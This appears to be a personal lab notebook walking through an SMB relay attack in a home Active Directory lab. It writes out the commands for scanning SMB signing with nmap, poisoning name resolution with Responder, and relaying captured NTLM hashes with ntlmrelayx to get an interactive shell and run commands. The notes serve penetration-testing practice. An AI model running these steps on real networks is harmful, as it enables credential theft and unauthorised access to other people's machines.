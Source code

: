 
Domain 
```
192.168.17.139
```

```
nmap --script=smb2-security-mode.nse -p445 192.168.17.139 -Pn
```
![[Pasted image 20240120125323.png]]
Always try to -Pn in the end cuz something it will not show the host even there are the host or something the ping might be blocked.

We can also swipe the whole network
```
nmap --script=smb2-security-mode.nse -p445 192.168.17.0/24 -Pn
```
![[Pasted image 20240120125838.png]]

<hr>

Now the attack begins will change the conf file of responder



Will make a target list with the fcastle and pparker id address
```
Fcastle
192.168.17.140

Pparker
192.168.17.142
```


![[Pasted image 20240120130349.png]]
![[Pasted image 20240120130432.png]]

Command to run
```
sudo responder -I eth0 -dwPv 
```
![[Pasted image 20240120130552.png]]

Now we have to setup the NTLM relay

```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support
```


Will trigger the event
```
\\192.168.17.136
```
![[Pasted image 20240120131350.png]]
![[Pasted image 20240122202733.png]]
Got the NTLM hash and the effect triggered from Peter parker pc cuz punisher is local admin in both the PC.
![[Pasted image 20240122202904.png]]



For a little twist i first try to relay with Peter Parker machine but failed in it but but but 
when i tried with fcastle i was able to get the relay as it is local admin on both the machine


![[Pasted image 20240120131959.png]]

```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support -i
```
![[Pasted image 20240120151006.png]]

![[Pasted image 20240120150947.png]]

If we want to test if we are able to run a command or not
```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support -c "whoami"
```

